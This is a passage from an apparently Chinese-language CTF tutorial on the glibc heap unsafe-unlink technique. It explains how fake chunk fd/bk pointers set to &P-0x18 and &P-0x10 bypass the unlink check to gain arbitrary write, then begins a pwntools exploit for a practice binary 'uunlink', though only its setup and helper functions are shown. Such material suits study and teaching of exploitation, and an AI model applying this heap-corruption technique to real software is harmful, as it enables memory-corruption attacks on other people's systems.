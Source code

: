 因此：

```c
P->fd->bk == P;
// 等价于
*(P->fd + 0x18) == P;
// 等价于
P->fd + 0x18 == &P;
// 等价于
P->fd = &P - 0x18
```

由此看来，我们只要满足fake chunk中的fd的值为&P - 0x18，即可绕过安全机制。

同样的，bk的值需要为&P - 0x10。注意，这里的P是合并到的地址。

若此时有一个数组/指针，专门用于存放这些`chunk`的地址时，&P便是可知的。

满足安全机制后，便会进行unlink：`FD->bk = Bk , BK->fd = FD`，如下：

```c
P->fd->bk = P->bk;
// 等价于
*(P->fd + 0x18) = &P - 0x10;
// 等价于
*(&P) = &P - 0x10;
P = &P - 0x10;

// 第二行同样：
P->bk->fd = P->fd;
// 等价于：
P = &P - 0x18;
// 即： P指向P自己的地址减去0x18的地方！
```

在可以利用的情况下，用户是可以对自己malloc的chunk进行修改的。因此对prev chunk进行修改，直接会变为修改存放这些chunk的数组/指针的值，我们便可以使其指向任意地址，并完成任意地址写。

## 例题uunlink

exp:

```python
from pwn import *
local = 1
elf = ELF('./uunlink')
context(log_level='debug')
if local:
    p = process('./uunlink')
    libc = elf.libc


def malloc(index, size):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Give me a book ID: ')
    p.sendline(str(index))
    p.recvuntil('how long: ')
    p.sendline(str(size))


def free(index):
    p.recvuntil('Your choice: ')
    p.sendline("3")
    p.recvuntil("Which one to throw?")
    p.sendline(str(index))


```